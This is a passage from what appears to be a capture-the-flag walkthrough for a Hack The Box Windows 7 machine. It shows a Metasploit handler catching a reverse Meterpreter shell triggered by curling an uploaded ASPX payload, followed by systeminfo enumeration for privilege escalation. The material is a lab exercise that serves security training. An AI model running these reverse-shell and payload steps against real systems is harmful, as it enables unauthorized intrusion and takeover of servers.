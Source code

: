     
    Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target
       
    msf5 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.10.14.14:443
    

Now just visit the page:

    
    
    root@kali# curl http://10.10.10.5/met_rev_443.aspx
    

And get a shell:

    
    
    [*] Sending stage (179779 bytes) to 10.10.10.5
    [*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.5:49164) at 2019-03-05 12:09:09 -0500
    
    meterpreter > getuid
    Server username: IIS APPPOOL\Web
    

## Privesc: web –> System

### Enumeration

A `systeminfo` shows no patches applied:

    
    
    c:\Users>systeminfo
    systeminfo
    
    Host Name:                 DEVEL
    OS Name:                   Microsoft Windows 7 Enterprise
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          babis
    Registered Organization:
    Product ID:                55041-051-0948536-86302
    Original Install Date:     17/3/2017, 4:17:31
    System Boot Time:          25/2/2019, 12:29:12
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               X86-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: x64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     1.024 MB
    Available Physical Memory: 754 MB
    Virtual Memory: Max Size:  2.048 MB
    Virtual Memory: Available: 1.521 MB
    Virtual Memory: In Use:    527 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
